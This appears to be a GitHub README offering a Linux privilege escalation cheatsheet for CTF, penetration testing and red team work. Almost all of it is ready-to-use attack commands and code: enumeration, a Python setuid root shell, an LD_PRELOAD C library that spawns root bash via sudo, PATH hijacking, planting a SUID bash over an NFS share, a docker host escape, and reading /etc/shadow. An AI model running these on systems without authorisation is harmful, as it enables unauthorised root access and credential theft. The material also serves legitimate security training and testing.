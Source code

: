 # linux-privilege-escalation-cheatsheet
This is a practical cheatsheet for Linux Privilege Escalation, ordered by priority.  
It is intended for Capture The Flag (CTF) exercises, penetration testing, and red team operations.  
Each section includes examples and ready-to-use commands.

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:  
whoami  
id  
hostname  
uname -a  
ps aux  
netstat -tulnp  
ss -tulnp  
env  
find / -name "*.log" 2>/dev/null  
find / -writable -type d 2>/dev/null  
cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
ls -la /home  
ls -la /tmp  
sudo -l  

--------------------------------------------------------------------------------------

# **SUDO**
Allows executing commands with elevated privileges if permitted in the sudoers file.  

sudo -l  
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# **SUID (Set User ID)**
Binaries that run with root privileges even when executed by unprivileged users.  

find / -perm -4000 -type f 2>/dev/null  
find / -perm /4000 2>/dev/null  
Check each binary on GTFOBins for known exploits.  

--------------------------------------------------------------------------------------

# **Capabilities**
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.  

getcap -r / 2>/dev/null  

If cap_setuid+ep is found on binaries like Python:  
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")' 

--------------------------------------------------------------------------------------

# **LD_PRELOAD / LD_LIBRARY_PATH**
Advanced technique using environment variables and sudo to run arbitrary code.  

Check if LD_PRELOAD is allowed:  
sudo -l

Create this C code:  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
  
void _init() {  
   unsetenv("LD_PRELOAD");  
   setgid(0);  
   setuid(0);  
   system("/bin/bash");  
}  

Compile it:  
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles  

Execute an allowed command:  
sudo LD_PRELOAD=/tmp/lib.so <command>  

Example:  
sudo LD_PRELOAD=/tmp/lib.so find  

--------------------------------------------------------------------------------------

# **Cron Jobs**  
Scheduled scripts executed by root. If editable, they are exploitable.  

cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
  
Check if any scheduled scripts are writable or vulnerable to PATH hijacking.  

--------------------------------------------------------------------------------------

# **Weak File Permissions**
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.
  
find / -writable -type f -user root 2>/dev/null  
cat /etc/shadow  
cat /etc/passwd  

--------------------------------------------------------------------------------------

# **PATH Hijacking**  
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.  
  
echo "/bin/bash" > cp  
chmod +x cp  
export PATH=.:$PATH  
./script.sh  

--------------------------------------------------------------------------------------

# **NFS Misconfiguration**  
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.  
  
showmount -e <IP>  
mount -t nfs <IP>:/home/backup /mnt/backup  
cp /bin/bash /mnt/backup/rootbash  
chmod +s /mnt/backup/rootbash  
  
--------------------------------------------------------------------------------------
   
# **Docker Misconfiguration**  
If the user is in the docker group, they can access the host by running privileged containers.  
  
id  # Check if you're in the docker group  
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  
  
--------------------------------------------------------------------------------------

# **Kernel Exploits**  
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).  
  
uname -a  
searchsploit linux kernel  



This cheatsheet was created for learning and practice purposes during Linux privilege escalation exercises.    
Feel free to fork, improve, and share it with the community.  


Made by [hawaiiansnow11mdm](https://github.com/hawaiiansnow11mdm)





